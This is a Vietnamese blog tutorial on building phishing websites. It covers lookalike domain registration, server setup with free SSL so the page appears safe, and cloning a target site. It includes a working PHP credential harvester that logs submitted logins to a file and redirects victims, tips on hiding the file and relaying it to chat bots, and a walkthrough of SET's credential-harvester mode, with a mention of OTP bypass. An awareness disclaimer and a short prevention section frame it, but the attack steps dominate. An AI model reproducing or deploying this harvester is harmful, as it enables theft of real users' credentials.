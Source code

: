 ![](https://images.viblo.asia/5f3b318c-51a2-4108-b77f-72eb490c34be.jpg)

> Lưu ý : Bài viết này không nhằm mục đích "vẽ đường cho Hươu chạy", thông qua nó mình chỉ muốn các bạn hiểu tường tận hơn về cách một Hacker tạo ra những Website giả mạo để tấn công người dùng. Qua đó nâng cao kiến thức cho bản thân để chủ động phòng tránh 

# 1. Phishing là gì ?
Bỏ qua những khái niệm mà bạn có thể dễ dàng tìm kiếm trên Google. Thì Phishing là một kỹ thuật tấn công xã hội, mà thông qua đó Hacker sẽ lừa bạn, dụ dỗ bạn để đạt được những thứ họ muốn ( Đa cấp biến tướng cũng là một hình thức Phishing) . 

Phishing thường gắn liền với hình ảnh đi câu cá là bởi lẽ để đạt được sự thành công sẽ luôn cần 3 yếu tố tiên quyết :**Sự nhẫn nại của người đi câu** (Hacker), **độ ngon của mồi** và **sự ngu của Cá**

Phishing hiện nay cực kỳ đa dạng và phong phú. Chúng ta có thể bị lừa thông qua bất cứ đâu, bất cứ phương tiện nào như SMS Phishing, Email Phishing hay Web Phishing. Trong thời đại phát triển mạnh mẽ về công nghệ thông tin như hiện nay, việc phát triển một công cụ lừa đảo cũng trở nên rất dễ dàng.

Trong bài viết dưới đây. Mình sẽ đi sâu về Web Phishing (Phishing thông qua Web)
# 2. Tiến hành Phishing
## 2.1. Xây dựng Web Phishing bằng "tay"

Về bản chất, Web Phishing hoạt động cũng không khác gì một Website thông thường. Tức là cũng phải sử dụng Domain, Server và các "gói" kèm theo

**Bước 1. Đăng ký Domain**

Bước này có lẽ sẽ quyết định tới 99% độ thành công của Web Phishing. Domain càng giống thật thì lại càng chiếm được sự tin tưởng của "người dùng". Ví dụ Website gốc ta có **bank-mni.com** thì có thể đăng ký **bank-nmi.com** hay **bank-mnL.com**. 

Nhưng thông thường, trong các quá trình tìm hiểu về Web Phishing bản thân mình thấy ít Hacker nào sử dụng luôn domain chính để tấn công. Có 2 hình thức mà họ thường hay sử dụng:

* Chiếm lấy tài nguyên của Website như Server hay Sub-Domain của Website  để thực hiện hành vi Phishing 
* Sử dụng SubDomain để phishing ( Ví dụ nếu **bank-nmi.com** là rất dễ để nhận dạng thì Hacker sử dụng domain **support-center.bank-nmi.com**)

Do trong bài viết này mình không Phishing ai cả, nên sẽ sử dụng luôn domain của mình để Demo

**Bước 2. Trỏ Domain về Server**

**Bước 3. Cài đặt môi trường**

Như đã nói ở trên, Web Phishing hoạt động giống như một Website thông thường. Nên mình cũng tiến hành cài đặt các package cần thiết

**Tiến hành cài đặt trên Ubuntu 20.10 LTS - GCP**

**Cài đặt Apache2**

```bash
sudo apt-get  update;
sudo apt-get upgrade -y
sudo apt-get install apache2 -y
```
![](https://images.viblo.asia/7e0ee8df-59e2-44ac-a319-d35a62687743.png)


**Cài đặt PHP**

> Nếu bạn sử dụng .Net hay Java làm ngôn ngữ tạo Web thì có thể cài đặt chúng. Ở đây mình sử dụng PHP nên sẽ cài PHP

```bash
sudo apt update
sudo apt install php libapache2-mod-php php-mysql
```
Sử dụng phpinfo() để kiểm tra

![](https://images.viblo.asia/0055c111-9dd5-4b5c-a22a-de3eca149862.png)


**Cài đặt SSL**

Đây có lẽ là một bước đột phá trong ngành công nghệ giả mạo Website. Nếu như trước kia, việc đăng ký SSL thực sự rất khó, phải nhiều giấy tờ chứng minh cùng với chi phí hàng năm không nhỏ để duy trì. Thì hiện nay sẽ rất đơn giản để bạn có thể tự đăng ký cho mình một SSL - nhanh chóng và miễn phí. 

`Các trình duyệt hiện tại sẽ mặc định đánh dấu những Website sử dụng SSL là bảo mật. Điều này sẽ gây nhầm tưởng nghiêm trọng tới tư duy của người sử dụng rằng cứ SSL là Website an toàn. Nên qua đó chúng ta cần phải hiểu rõ hơn rằng. SSL hoàn toàn không có tác dụng khi chúng ta bị tấn công Phishing `

```bash
sudo apt install certbot python3-certbot-apache
sudo certbot --apache
sudo certbot --apache -d web-phishing.com
```

![](https://images.viblo.asia/7676ada1-9d68-4a63-870d-7cddb385f4b9.png)

Như vậy là chúng ta đã có một Website "**An toàn**" được đánh giá bởi trình duyệt

![](https://images.viblo.asia/f74020b8-8473-4a89-9b55-d5bb476d67e5.png)


**Bước 3. Code**

Bước này là bước mình không thể mô tả chi tiết nhất. Bởi bản thân thấy nó rủi ro. Nên mình chỉ có thể diễn đạt một các sơ lược

**Crawl website gốc với Ctrl + S sao đó lưu vào Web Server**

![](https://images.viblo.asia/ca4bc543-ddca-4eb3-9587-8f2ec7707f5d.png)


![](https://images.viblo.asia/4172c6f9-3fff-4f0e-961b-6a2f3f1d5e39.png)


![](https://images.viblo.asia/25896ebe-ee33-4577-896c-7c615ac3b2bf.png)


Sử dụng PHP để tạo Web Phishing

```php
<?php
//lưu nó vào rồi redirect sang trang khi là dc

header("Location:https://www.website-phishing/"); 
$handle = fopen("pass.txt", "a");
foreach($_POST as $variable => $value) 
{
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
```
Vậy là Website đã hoàn thành, khi User nhập tài khoản và mật khẩu - các thông tin này sẽ tự động lưu trữ tại pass.txt.

```
Tip 1: (for Pentester): Không đặt pass.txt tại WebRoot hoặc chmod thật kỹ , tránh trường hợp người dùng tải về 
```
```
Tip 2: (for User): Trong trường hợp chúng ta vô tình nhập phải thông tin quan trọng, có thể sử dụng Brute-force để tấn công vào Web Phishing. Điều này sẽ làm Hacker không thể nhận biết đâu là tài khoản thật , đâu là tài khoản ảo 
```
```
Tip 3: Để thuận tiện hơn cho quá trình sử dụng, ta có thể kết hợp pass.txt với các Bot của Chatwork, Telegram , Discord ... 
```


## 2.1. Xây dựng Web Phishing bằng "Tools"

Phần demo dưới đây, mình sử dụng bộ công cụ tấn công Setoolkit . Đây là một công cụ rất nổi tiếng , chuyên biệt dành cho dạng tấn công này. 

**Cài đặt**

```bash
git clone https://github.com/trustedsec/social-engineer-toolkit
cd setoolkit
pip3 install -r requirements.txt
python setup.py
```

**Sử dụng**

**Khởi chạy**

`sudo setoolkit`

![](https://images.viblo.asia/7b696ae3-0993-448e-825e-f7f5ce2b6ba0.png)

Lựa chọn phương thức **1) Socia-Enginerring Attacks**

![](https://images.viblo.asia/330c91d1-18e3-448d-b2aa-fa054c241a56.png)

Lựa chọn phương thức **2) Website Attack Vectors**

![](https://images.viblo.asia/3237b6e7-122f-4bef-b82a-db5e3dbbf45e.png)

Tiếp đó lựa chọn phương thức **3) Credential Harvester Attack Method**

![](https://images.viblo.asia/bffa5e4a-4dc2-454a-be40-382c8a942b07.png)

Tiếp đó lựa chọn phương thức **1) Web Templates**  (Nếu website bạn muốn phishing là Facebook, Google, Amazon)
 
 Phương thức **2) Site Cloner** (Nếu Website bạn muốn phishing không có sẵn Templates)
 
 Sau khi chọn, Setoolkit sẽ yêu cầu IP của Attacker ( IP Public trong trường hợp bạn sử dụng trên VPS)
 
 ![](https://images.viblo.asia/23879a95-45da-4d46-897a-1fdcc7a8f9f4.png)

Sau đó nhập website bạn muốn tiến hành phishing

![](https://images.viblo.asia/053e6acd-37b5-47dd-ba54-ebcb9a308bb8.png)

Vậy là xong, khi người dùng truy cập vào website của bạn và nhập thông tin của họ. Setoolkit sẽ hiển thị ngay lập tức

![](https://images.viblo.asia/ee69b356-7579-485b-9be2-894e8c5f9674.png)

```
Tip: Hacker có thể dụng Metasploit Framework, BeeF Framework hay Evilginx để gia tăng hiệu quả tấn công (Malware/ bypass OTP)
```
# 3. Khắc phục
Việc phòng tránh phishing thực sự là một công việc vô cùng khó khăn. Bởi lẽ con người luôn là yếu tố dễ tổn thường nhất trong một cuộc tấn công mạng. Chúng ta thường bị lừa bởi những lời chào mời hay bị dẫn dụ bởi lòng tham **(biết là bị lừa mà vẫn lao vào để mong sao lừa được người khác** :grinning:)

Để hạn chế khả năng thành nạn nhân trên không gian mạng chúng ta cần :
- Tránh click vào những đường dẫn lạ, được gửi từ các email , số điện thoại không quen biết
- Không nhập các thông tin quan trọng khi chưa biết rõ độ an toàn của Website
-  Định kỳ thay đổi mật khẩu và các thông tin nhạy cảm
-  Tránh đặt mật khẩu giống nhau giữa các dịch vụ khác nhau
-  Cài đặt một số công cụ phát hiện chống lừa đảo (J2 Team Security, Chống lừa đảo....)
-  Nâng cao hiểu biết về tấn công mạng nói chung và phishing nói riêng